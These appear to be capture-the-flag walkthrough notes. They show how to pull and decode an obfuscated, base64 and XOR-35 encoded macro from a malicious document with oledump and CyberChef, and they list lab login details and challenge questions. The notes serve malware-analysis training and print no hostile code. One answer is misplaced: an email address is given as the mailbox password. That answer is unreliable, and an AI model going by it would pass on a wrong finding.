- s STREAM NUMBER or --select=STREAM NUMBER allows you to select the stream number to analyze (-s a to select all streams)

- d, --dump - perform a raw dump

- x, --hexdump - perform a hex dump

- a, --asciidump - perform an ascii dump

- S, --strings - perform a strings dump

- v, --vbadecompress - VBA decompression

- Grinch Enterprises left a malicious document on the machine, and you need to find it.

  - The document contains a malicious obfuscated base64-encoded script that also comes with a "secret" cipher ingredient... decimal 35.

  - Find out what the evil script does and locate the two flags.

  - To solve this challenge, you need to find the stream that contains the obfuscated script.

  - Select the macro stream number 8 and dump the contents by running the command:

```text
oledump.py -s 8 -d
```

  - The decimal number 35 will be our XOR key.

  - Let's build the recipe in CyberChef using the following ingredients:

    - 1. From Base64

    - 2. XOR 35 (Don't forget to choose Decimal from the dropdown!)

    - You might have noticed the secret script still looks odd because it's double-encoded using Base64! Let's choose From Base64 for our third ingredient.

- Now that you're armed with knowledge let's start the challenge!

  - The virtual machine will launch in-browser. If you wish to access the virtual machine via Remote Desktop, use the credentials below.

  - Machine IP: MACHINE_IP

  - User: administrator

  - Password: sn0wF!akes!!!



  - Accept the Certificate when prompted, and you should be logged into the remote system now.

  - Note: The virtual machine may take up to 3 minutes to fully load.

- Answer the questions below

- What is the username (email address of Grinch Enterprises) from the decoded script?





- What is the mailbox password you found?

  - Answer: grinch.enterprises.2021@gmail.com

- What is the subject of the email?

- What port is the script using to exfiltrate data from the North Pole?

- What is the flag hidden found in the document that Grinch Enterprises left behind? (Hint: use the following command oledump.py -s {stream number} -d, the answer will be in the caption).



- There is still a second flag somewhere... can you find it on the machine?






